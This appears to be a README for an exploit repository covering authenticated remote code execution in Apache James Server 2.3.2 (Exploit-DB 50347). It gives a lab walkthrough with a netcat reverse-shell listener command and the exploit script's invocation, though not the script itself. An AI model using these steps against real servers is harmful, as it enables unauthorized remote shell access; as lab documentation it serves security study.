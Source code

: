 # Apache James Server 2.3.2 – Authenticated Remote Code Execution (Exploit-DB 50347)

> ⚠️ **Disclaimer**  
This repository is intended **strictly for educational and research purposes only**.  
The information and code provided here can be used in **controlled environments**, such as private lab machines.  
**Unauthorized use of this code against systems you do not own or have explicit permission to test is illegal and unethical.**  
The author is **not responsible** for any misuse or damages caused.

---

## 🔍 About the Vulnerability

This vulnerability affects **Apache James Server 2.3.2** and allows an **authenticated attacker** to achieve **Remote Code Execution (RCE)** through a combination of exposed services:

- **Remote Admin Interface** on port `4555`
- **SMTP Service** on port `25`

The attacker uses the admin credentials to create a new user, then sends a crafted email containing a payload. When the server processes this email, it triggers command execution under the context of the James server user.

- **Vulnerability Type:** Authenticated Remote Code Execution  
- **Affected Version:** Apache James Server 2.3.2  
- **Authentication Required:** ✅ Yes  
- **Severity:** Critical  
- **Exploit-DB ID:** [50347](https://www.exploit-db.com/exploits/50347)
- **CVE:** _Unknown_ (not assigned)

---

## 📜 References

- [Exploit-DB – 50347](https://www.exploit-db.com/exploits/50347)  
- [Apache James GitHub](https://github.com/apache/james-project)  
- [James Server Documentation](https://james.apache.org/server/)

---

## 🛠️ Exploit Overview

The public exploit from Exploit-DB creates a malicious email that contains a reverse shell command. This is sent using a self-created user account via the exposed admin and SMTP interfaces.

📝 **Important:**  
Make sure to **modify the port numbers inside the exploit script** if your setup uses non-default ports for:
- Admin interface (default: 4555)
- SMTP service (default: 25)


---

## 💥 Exploit Usage
### Step 1: Start Netcat Listener

```bash
nc -nvlp 4444
```

### Step 2: Run the Exploit Script

```bash
python exploit.py <target-ip> <your-ip> <your-port>
```
Replace the IPs and port as per your environment.

✅ Make sure:

Apache James version is 2.3.2

Ports 4555 (admin) and 25 (SMTP) are open

You modify the exploit script if the ports are different

The reverse shell is triggered only after user login


---

## 💥 Demonstration

This exploit was tested in a **private lab setup** using a clean vulnerable instance of Apache James 2.3.2.

### 1. Detecting Apache James Services

An `nmap` scan reveals that the target server is running all James services.

![Apache Version](./img/apache_JAMES.png)

---

### 2. Running the Exploit Script

Command to execute the exploit:

```bash
python exploit.py <target-ip> <your-ip> <your-port>
```

![Exploit](./img/Exploit.png)

### 3. Reverse Shell Listener
Start a netcat listener on the attacker's machine:
```bash
nc -nvlp 4444
```
![Reverse Shell](./img/ReverseShell.png)

## Medium Blog
I’ve written a more in-depth explanation and walkthrough of this exploit on Medium:
👉 [Read the blog on Medium](https://medium.com/@cyberquestor/apache-james-server-2-3-2-authenticated-remote-code-execution-exploit-db-50347-779a21ca0ec8)